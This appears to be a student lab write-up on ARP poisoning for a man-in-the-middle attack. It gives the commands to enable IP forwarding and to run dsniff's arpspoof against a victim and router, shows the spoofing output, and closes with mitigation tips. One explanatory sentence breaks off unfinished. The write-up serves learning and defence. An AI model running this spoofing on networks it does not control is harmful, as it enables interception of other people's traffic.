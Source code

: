 # Man In the Middle (MITM) attach - ARP Poisioning

ARP poisoning is an attack wherein fake ARP reply packets are sent on the network. It can be further categorized into two possible attacks:
- Man in the middle (MITM)
- Denial of Service (DOS)

However, we will stick our experiment to MITM only.


## Modify Routing Status

File: /proc/sys/net/ipv4/ip_forward  

It signifies the routing of the packets to the current machine, which means all the packets going the router will also get delivered to the current address as well [1].

Command to modifying the status the routing of the packet
```
// Mode changed to super user
sudo su
// Print 1
# echo 1 > /proc/sys/net/ipv4/ip_forward
// Concatenate 1 to 'ip_forward'
# cat /proc/sys/net/ipv4/ip_forward
```


## Perform packet spoof

Install **dsniff**: Library to perform the packet sniffing and spoofing
Command: `sudo apt-get install dsniff`

Command to spoof: 
`sudo arpspoof -i wlp2s0 -t 192.168.0.94 192.168.0.1`

Explanation: 
- wlp2s0: Device
- Victim Private IP: 192.168.0.94
- Router IP Address: 192.168.0.1

Output Screenshot:
![Screenshot](SpoofingResult.png)


Output:  
```
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
```

## After Spoofing

We cannot proceed further, because it would be illegal to go ahead and read some's data, but this is not the end. There are several technique followed by a real attacker to make sense of the packet such:
- Packet Poisoning: When the packets are dealt with forcefull 


## Steps to overcome the ARP Poising

- Do not have a weak security mode for the Network, because it cannot prohibit unauthorized intrusion in the network.
- Having a weak password for the network security can be comprised if dealt with brute-force attack, or running authentication loop to authenticate with the commonly used words.
- Use CISCO routers that can help to examine the ARP spoofing.
- Detection Tools: ARP spoofing can be detected by the usage of the third-party tool like XArp
- Packet filtering and inspection can detect poisoned packets and catch them before reaching the destination (Or Attacker) [2].
- VPN can be relied upon to have a secure connections.
- Updated Browser with updated TLS/SSL.


## Reference

1. https://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding
2. https://www.indusface.com/blog/protect-arp-poisoning/